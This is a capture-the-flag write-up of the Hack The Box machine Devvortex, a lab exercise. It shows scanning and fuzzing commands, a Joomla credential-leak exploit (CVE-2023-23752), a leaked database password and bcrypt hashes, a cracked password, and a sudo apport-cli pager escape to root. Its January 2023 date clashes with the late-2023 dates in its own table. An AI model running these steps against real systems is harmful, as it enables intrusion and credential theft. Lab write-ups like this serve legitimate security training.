 ```yaml
---
title: HTB Devvortex Writeup
author: Elus1nist
layout: post
date: 12 January 2023
imagesrc: https://labs.hackthebox.com/storage/avatars/2565d292772abc4a2d774117cf4d36ff.png
---
```

Welcome! This is my writeup of the Season 3 Easy machine from HTB, Devvortex. 

---
---
## Enumerating Services and Open Ports


So to start, as usual we run an nmap TCP port scan:

```
nmap -sC -sV -oN initial_scan 10.10.11.242
```
This gives us the scan results of:
```sh
Nmap scan report for 10.10.11.242
Host is up (0.36s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

Alright, so now we have the following services that we can exploit:
- Port 22: SSH - This service will probably become accessible once we have some creds
- Port 80: HTTP - We can see a domain name dumped `devvortex.htb` (add to `/etc/hosts` file)

---
---
## Enumerating HTTP

Once we add to our hosts file we can visit the HTTP webpage and see the following:

<img src="{{- 'writeup_images/Devvortex/devvortex_Webpage.png' | relative_url}}" >

Seeing nothing right off the bat, we can go ahead with some VHost Fuzzing

---
---
## Fuzzing

```
ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://devvortex.htb/ -H 'Host: FUZZ.devvortex.htb' -fs xxx
```
Fuzzing reveals an additional VHost - `dev.devvortex.htb`. We also add this to `/etc/hosts`

We can now do a directory bruteforce for this VHOST using feroxbuster:
```sh
feroxbuster --url http://dev.devvortex.htb/ --filter-status 404
```
This reveals a directory of `/administrator`

Visiting shows us a Joomla Application:
<img src="{{- 'writeup_images/Devvortex/devvortex_Joomla.png' | relative_url}}" >

---
---
## Joomla Exploitation

Doing a quick enumeration with joomscan we see a Joomla Version 4.2.6

A quick google directs us to - [Joomla Credential Dump CVE-2023-23752](https://github.com/Acceis/exploit-CVE-2023-23752)

Exploiting with:
```sh
ruby exploit.rb http://dev.devvortex.htb/
```
`lewis:P4ntherg0t1n5r3c0n##`

After logging in with these admin credentials we can modify error.php and gain a reverse shell as `www-data`

---
---
## Pivoting for user flag

Once in as `www-data` we can see a mysql account. Logging is using lewis credentials:
```sh
mysql -h localhost -u lewis -p'P4ntherg0t1n5r3c0n##'
```

This allows us to dump the table from `joomla\sd4fg_users`:
```mysql
use joomla;
select * from sd4fg_users;
```
Table dump shows:

| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
|-----|------------|----------|---------------------|--------------------------------------------------------------|-------|-----------|---------------------|---------------------|------------|---------------------------------------------------------------------------------------------------------------------------------------------------------|---------------|------------|--------|------|--------------|--------------|
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-11-29 13:08:02 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |

Cracking the password for user logan using hashcat we getcredentials:
`logan:tequieromucho`

---
---
## SSH Login

We can then login to ssh using the credentials for logan and pick up the user.txt flag

---
---
## Privilege Escalation

With a simple `sudo -l` command we can see that user logan can run the following with root priveleges

```
User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

Utilizing an older CVE we can load a crash file with apport and with the pager, gain command access.

```sh
sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_apport-cli.0.crash
```

Once loaded we can pres the `V` key and use `!/bin/bash` to gain root shell.

<img src="https://giffiles.alphacoders.com/206/206739.gif">